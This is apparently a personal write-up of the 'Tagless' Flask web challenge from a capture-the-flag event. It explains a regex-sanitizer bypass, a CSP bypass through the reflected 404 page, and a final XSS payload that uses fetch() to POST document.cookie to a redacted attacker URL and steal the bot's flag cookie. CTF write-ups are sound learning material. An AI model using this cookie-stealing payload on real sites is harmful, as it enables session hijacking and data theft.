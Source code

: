 Only managed to solve 1 ):
# Tagless
This challenge was a web challenge involving flask. This was my first ctf where challenges needed to be launched and had a time limit, leading to some confusion when accessing the challenge instance. A good learning point from this was to always attempt to reproduce the challenge locally, if possible.
This challenge had 3 important endpoints:
`/`
* The index page, which seems to display whatever message you supply in an iframe
* ![[Pasted image 20240826210809.png]]
`/report`
*  Seems to get the bot to visit a localhost url
```python
@app.route("/report", methods=["POST"])  
def report():  
    bot = Bot()  
    url = request.form.get('url')  
    if url:  
        try:  
            parsed_url = urlparse(url)  
            print("visiting ", parsed_url)  
        except Exception:  
            return {"error": "Invalid URL."}, 400  
        if parsed_url.scheme not in ["http", "https"]:  
            return {"error": "Invalid scheme."}, 400  
        if parsed_url.hostname not in ["127.0.0.1", "localhost"]:  
            return {"error": "Invalid host."}, 401  
        bot.visit(url)  
        bot.close()  
        return {"visited":url}, 200  
    else:  
        return {"error":"URL parameter is missing!"}, 400
```
`/<anything else>`
*  Small yet important, it simply tells you the `url path` you supplied was not found
Next,  we need to find where the flag is stored. Searching around, you find this in `bot.py`
```python
class Bot:  
    def __init__(self):  
		...
    def visit(self, url):  
        self.driver.get("http://127.0.0.1:5000/")  
        self.driver.add_cookie({  
            "name": "flag",   
            "value": "SEKAI{dummy}",   
            "httponly": False    
		})   
		self.driver.get(url)  
        time.sleep(1)  
        self.driver.refresh()
```
This is where the `report` endpoint comes in handy, as it gets the bot to first visit and add a cookie to  itself, then open a corresponding url supplied. If we want any chance of stealing the cookie,  the url we visit must be the same url the cookie was added to (localhost). From there, we need some way to exfiltrate the cookie. 
Looking back at `/`, we  find that the js script linked to the file also takes the query parameter `auto_input` to fill up the iframe. This is valuable as it allows us to inject any html we wish just using the url, e.g. when using `/report`. However, It is also worth noting all input is sanitized by
```js
function sanitizeInput(str) {  
    str = str.replace(/<.*>/igm, '').replace(/<\.*>/igm, '').replace(/<.*>.*<\/.*>/igm, '');   
    return str;  
}
```
, which seems to strip all text that resembles html tags. What if we supplied an incomplete tag, and let the browser close it for us?
![[Pasted image 20240826212534.png]]
Simple, right? Now we can provide a script tag with its src pointing to our payload to extract the cookie. But nope. Unfortunately, all requests are given these pesky CSP headers, preventing both scripts from other urls and inline scripts from running
```python
@app.after_request  
def add_security_headers(resp):  
    resp.headers['Content-Security-Policy'] = "script-src 'self'; style-src 'self' https://fonts.googleapis.com https://unpkg.com 'unsafe-inline'; font-src https://fonts.gstatic.com;"  
    return resp
```
We could have to find a way to get the script to fulfill this csp, which is where
the url not found page comes in handy. Since any unknown path is reflected back in the page content as text, we could use that as the source of the payload, without any CSP violation. 
![[Pasted image 20240826213241.png]]
This is still not valid js, so we need to mangle the url further
![[Pasted image 20240826213351.png]]
### Conclusion
We have this js:
```js
fetch('URL HERE', {body: document.cookie, method: 'POST'});
```
The url payload:
`http://127.0.0.1:5000/?fulldisplay=j&auto_input=http://127.0.0.1:5000/**/JS HERE//;`
We get the final url for `/report`:
`http://127.0.0.1:5000/?fulldisplay=j&auto_input=<script src="http://127.0.0.1:5000/**/fetch('***', {body: document.cookie, method: 'POST', mode:'no-cors'});//"//`
, giving us the flag.
> Notes:
> - I should've used a get request to make my life easier. I have also discovered `Nagivator.sendBeacon()` which seems like a quick and easy way to do requests.
> - Mixing `localhost` and `127.0.0.1` is not ideal, despite them both pointing to the same thing

